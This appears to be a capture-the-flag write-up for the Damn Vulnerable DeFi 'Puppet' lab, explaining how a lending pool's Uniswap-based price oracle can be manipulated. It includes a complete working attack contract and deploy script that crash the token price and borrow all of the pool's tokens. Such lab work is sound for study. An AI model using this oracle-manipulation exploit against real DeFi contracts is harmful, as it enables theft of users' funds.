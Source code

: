 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/8.png">

# Target Contract Review

Given contract.

**PupperPool.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {
    using Address for address payable;

    uint256 public constant DEPOSIT_FACTOR = 2;

    address public immutable uniswapPair;
    DamnValuableToken public immutable token;

    mapping(address => uint256) public deposits;

    error NotEnoughCollateral();
    error TransferFailed();

    event Borrowed(address indexed account, address recipient, uint256 depositRequired, uint256 borrowAmount);

    constructor(address tokenAddress, address uniswapPairAddress) {
token = DamnValuableToken(tokenAddress);
uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing tokens by first depositing two times their value in ETH
    function borrow(uint256 amount, address recipient) external payable nonReentrant {
uint256 depositRequired = calculateDepositRequired(amount);

if (msg.value < depositRequired)
    revert NotEnoughCollateral();

if (msg.value > depositRequired) {
    unchecked {
payable(msg.sender).sendValue(msg.value - depositRequired);
    }
}

unchecked {
    deposits[msg.sender] += depositRequired;
}

// Fails if the pool doesn't have enough tokens in liquidity
if(!token.transfer(recipient, amount))
    revert TransferFailed();

emit Borrowed(msg.sender, recipient, depositRequired, amount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
// calculates the price of the token in wei according to Uniswap pair
return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
}
```

The `PuppetPool` contract is a smart contract that allows users to borrow tokens by depositing collateral in the form of ETH.

It defines a constant `DEPOSIT_FACTOR` which is set to 2. This factor is used to calculate the required deposit amount based on the borrowed token amount.

In the constructor, it gets instance of `DamnValuableToken` and address of **Uniswap pair for the token**.

`barrow()` : Allows users to borrow tokens by depositing collateral in the form of ETH. The function takes the desired borrow amount and the recipient address as parameters. The function checks if the user has provided enough collateral and refunds any excess ETH. It then transfers the borrowed tokens to the recipient address.

`calculateDepositRequired()` : Calculates the required deposit amount based on the desired borrow amount. It uses the `_computeOraclePrice()` function to get the price of the token in wei.

`_computeOraclePrice()` : Calculates the price of the token in wei based on the ETH balance of the Uniswap pair and the token balance of the pair.


Challenge's message:

> There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.
Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

# Subverting

To pass the challenge, we must send ether to `barrow()` function more than `depositRequired`'s value. Here is calculation method of depositRequired's value:

```solidity
uint256 oraclePrice = uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair); // _computeOraclePrice()
uint256 depositRequired = amount * tokenPrice * 2 / 10 ** 18
```

As evident from the code, it is apparent that **we have the capability to influence the token's price through the oracle function by adjusting the balance within the Uniswap pool**.

The token's price is inversely correlated with the pool's token balance, meaning that as the balance within **the pool increases, the token's value decreases**. This phenomenon is achievable because **the pool contains relatively limited liquidity compared to our token holdings, granting us the ability to influence the price dynamics of this particular pool**.

In this case, we learned **1 ETH = 1 DVT**.


Also, in the [uniswap v1's whitepaper](https://hackmd.io/@HaydenAdams/HJ9jLsfTz#Swaps-vs-Transfers), it says:

> The functions `ethToTokenSwap()`, `tokenToEthSwap()` , and `tokenToTokenSwap()` **return purchased tokens to the buyers address**.
The functions `ethToTokenTransfer()`, `tokenToEthTransfer()`, and `tokenToTokenTransfer()` **allow buyers to make a trade and then immediately transfer purchased tokens to a recipient address**.

In this challenge, if we used this method like `tokenToEthSwapInput(balance, 1, block.timestamp * 2)`, after the swap, the oracle within the puppet pool will compute a reduced value for the DVT token's price. Consequently, this implies that we'll have the ability to **borrow all the DVT tokens held within the pool with just a small amount of ETH (the collateral)**. Let's look at the attack contract:

```solidity
pragma solidity ^0.8.0;

import "../puppet/PuppetPool.sol";
import "../DamnValuableToken.sol";
interface IUniswap {
  function tokenToEthSwapInput(uint256 tokensSold, uint256 minEth, uint256 deadline) external returns (uint256);
}
contract AttackPuppet {
    IUniswap uniswap;
    DamnValuableToken token;
    PuppetPool pool;

  constructor(address _pool, address _token, address _uniswap, uint8 v, bytes32 r, bytes32 s) payable {
    uniswap = IUniswap(_uniswap);
    token = DamnValuableToken(_token);
    pool = PuppetPool(_pool);
    uint256 balance = token.balanceOf(msg.sender);
    token.permit(msg.sender,address(this),type(uint256).max,type(uint256).max,v,r,s /* Player Signature Verification */);
    token.transferFrom(msg.sender, address(this), balance);
    token.approve(address(uniswap), balance);
    uniswap.tokenToEthSwapInput(balance, 1, block.timestamp * 2);
    uint256 poolBalance = token.balanceOf(address(pool));
    pool.borrow{ value: 20 ether }(poolBalance, address(this));
    token.transfer(msg.sender, token.balanceOf(address(this)));
  }
}
```

Get the instances of the contracts.

```solidity
uniswap = IUniswap(_uniswap);
token = DamnValuableToken(_token);
pool = PuppetPool(_pool);
```


We’ll use **a signature for an ERC-2612** `permit()` function, which allows our attack contract to **take tokens from our account (EOA) during the attack execution**. Then, we will pull the player's balance.

```solidity
uint256 balance = token.balanceOf(msg.sender);
token.permit(msg.sender,address(this),type(uint256).max,type(uint256).max,v,r,s /* Player Signature Verification */);
token.transferFrom(msg.sender, address(this), balance);
```

Now that we’ve got our player balance into `AttackPuppet` we’ll approve uniswap to spend our tokens, which is required to perform the swap and get an under-collateralized position.

```solidity
token.approve(address(uniswap), balance);
uniswap.tokenToEthSwapInput(balance, 1, block.timestamp * 2);
```

At this point, the uniswap price oracle ought to be furnishing a distorted price data stream, enabling us to secure the loan at a significantly reduced rate. Finally, we can transfer the DVT we acquired from the contract to our player account.

```solidity
uint256 poolBalance = token.balanceOf(address(pool));
pool.borrow{ value: 20 ether }(poolBalance, address(this));
token.transfer(msg.sender, token.balanceOf(address(this)));
```

Here are the attacker commands:

```js
const { signERC2612Permit } = require('eth-permit');
    
const attackContract = ethers.utils.getContractAddress({
    from: player.address,
    nonce: 0
});
    
const { v, r, s } = await signERC2612Permit(
    player,
    token.address,
    player.address,
    attackContract,
    ethers.constants.MaxUint256
);
    
await ethers.getContractFactory('AttackPuppet', player).then(c => c.deploy(
    lendingPool.address,
    token.address,
    uniswapExchange.address,
    v,
    r,
    s,
    { value: ethers.utils.parseEther('20') }
));
```

Solve the challenge.

```powershell
  [Challenge] Puppet
    ✔ Execution (647ms)


  1 passing (2s)

Done in 3.59s.
```

**_by wasny0ps_**
